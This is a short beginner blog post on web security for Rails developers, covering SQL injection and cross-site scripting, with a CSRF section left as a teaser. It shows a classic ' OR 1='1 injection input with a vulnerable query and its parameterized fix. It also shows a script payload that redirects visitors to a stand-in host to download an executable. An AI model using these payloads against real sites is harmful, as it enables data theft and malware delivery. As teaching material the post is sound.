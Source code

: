 ```yaml
---
layout: post
title:      "Basic Security "
date:       2019-10-06 20:20:17 -0400
permalink:  basic_security
---
```


With all the hacks against big companies and sensitive data being compromised even if your, not a web-security expert it should be on your mind.
 
 There are 3 major ones that all Junior developers should be aware of as they start to build and write code. These are some of the basic definitions from Wikpedia.

1. SQL Injection - “An attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data “ 
2. Cross-Site Scripting (XSS)-enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls
3. Cross-site request forgery is a type of malicious exploit of a website where unauthorized commands are transmitted from a user that the web application trusts.

## SQL Injection
Why is it so scary ,first even a non-sesoned hacker with very basic coding skills can gain access to some of the info in a DB. Second, any form that is submitting data is bypassing all firewall and security measures and so we can update the info in the DB. What is stopping the user from injecting some SQL query to retrieve data? I will not get into specifics of what can be done as that would be liking giving a loaded gun to a child. I will just mention some measures that are taken to prevent such hacks.

In rails when we use active record as gateway to our DB . But whaf if my name is ```  ' OR 1='1``` 

```User.where("name = '#{params[:name]'") # SQL Injection!```

Because now we are saying  give me a user whose name is  blank  or if 1=1 (which is true) so then return the whole table (OOHH )


```User.where(["name = ?", "#{params[:name]}"])```

We don't pass in a string directly but use “?“ as template or placeholder for the parameters.In this example we are clearly stating how to make the query! This is just one example if we are even just aware of the vulnerabilities,that will help us in finding the correct solution.







## Cross-Site Scripting (XSS)
I wrote about this [here](http://simchagreenbaum.com/securing_a_rails_app) how Rails pervents  any user input that will be diplayed and wont execute any HTML 
```<script>alert('x');</script> ```

If you are using JS you need to make sure that any input will escape the HTML and make sure it doesn't have the ability to execute any scripts.Why are scripts so bad ?  We could have a legitmate website that will run a script on the client  side. What if  we entered this into an input form?

```<script>document.location="http://www.badwebsite.com/download.exe";</script>```

On load, this will send the user to a different URL which will download the file. This is a huge topic but the point is to understand that any input form or search bar on a website can be vulnerable.  



## Cross-site Request Forgery
**Stay tuned-coming  next week**



All the best,

Simcha Greenbaum



References

1. [SQl Injection](https://www.beyondsecurity.com/about-sql-injection.html)
2. [CSRF](https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef)
3. [Web-Security](http://simchagreenbaum.com/Web-Security) 




